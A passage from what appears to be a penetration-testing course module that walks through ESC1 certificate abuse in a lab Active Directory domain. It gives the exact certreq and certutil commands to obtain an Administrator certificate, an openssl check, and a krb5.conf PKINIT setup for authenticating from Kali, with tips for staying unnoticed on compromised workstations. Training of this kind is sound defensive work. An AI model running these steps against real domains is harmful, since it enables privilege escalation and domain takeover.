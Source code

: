 `certreq -submit -config SRV-1\InnsmouthNet-SRV-1-CA -attrib "CertificateTemplate:ESC1" admin.req admin.cer`

![[certutilreq.PNG|center]]

**NOTE: CERTUTIL IS EXTREMELY PICKY; THE ABOVE COMMAND MUST BE EXECUTED VERY CAREFULLY. If you mess it up, such as leaving off the output file name (`admin.cer`/`admin.rsp`), there will be a popup of Windows Explorer on the user's desktop prompting them to choose a place to save them. We don't want to be burdening the users on our compromised workstations with such extraneous windows!**

At this point, `admin.cer` is your certificate! Transfer it (or copy/paste it) to your Kali machine and examine it with OpenSSL:

`openssl x509 -in admin.cer -text -noout`

Note the "Subject" and "EKU" fields and verify that they are set to the Administrator user and one of the correct EKUs that allow authentication respectively, and then you're all set to authenticate! I will show you how to authenticate with Rubeus and Certipy later on in this module, but first lets manually configure Kerberos from Kali. This will give us more authentication options with certificates and give us more insight into the process.

First we need the certificate of the certificate authority for the PKINIT module on our Kali machine. PKINIT will match a certificate to a principal in Active Directory and ascertain if the authenticating certificate is trusted based on the CA certificate we provide it. Run the following command on the Windows workstation to retrieve the CA certificate. Note that as before, certutil is extremely picky, and PowerShell will throw errors about invalid arguments unless you execute it using `cmd.exe /c`:

IF FROM CMD:
`certutil -config SRV-1\InnsmouthNet-SRV-1-CA -ca.cert ca.cer`

IF FROM POWERSHELL:
`cmd.exe /c "certutil -config SRV-1\InnsmouthNet-SRV-1-CA -ca.cert ca.cer"`

Copy/paste the base64 certificate from the output of this command (including the "BEGIN CERTIFICATE" amd "END CERTIFICATE" lines) to your Kali machine into a file called "ca.cer". The output file from this command on the Windows workstation, ca.cer, is required for certutil but can and should be deleted at this point because we don't need it (it is in raw binary format and we want the base64).

Now, you need to configure krb5 for the correct realm on your Kali machine. Write the following to /etc/krb5.conf. **Make sure to fill in the correct paths for the certificates and key**. I also recommend backing up the current file at that location just in case. The caps in this file (for the domain/realm) are very important, so don't neglect them:

```
[libdefaults]
        default_realm = INNSMOUTHNET.LOCAL

[realms]
        INNSMOUTHNET.LOCAL = {
                kdc = INNSMOUTH-DC.INNSMOUTHNET.LOCAL
                admin_server = INNSMOUTH-DC.INNSMOUTHNET.LOCAL
                pkinit_anchors = FILE:/path/to/ca.crt
                pkinit_identities = FILE:/path/to/admin.cer,/path/to/admin.key
                pkinit_kdc_hostname = INNSMOUTH-DC.INNSMOUTHNET.LOCAL
                pkinit_eku_checking = kpServerAuth
        }

[domain_realm]
        .InnsmouthNet.local = INNSMOUTHNET.LOCAL
```
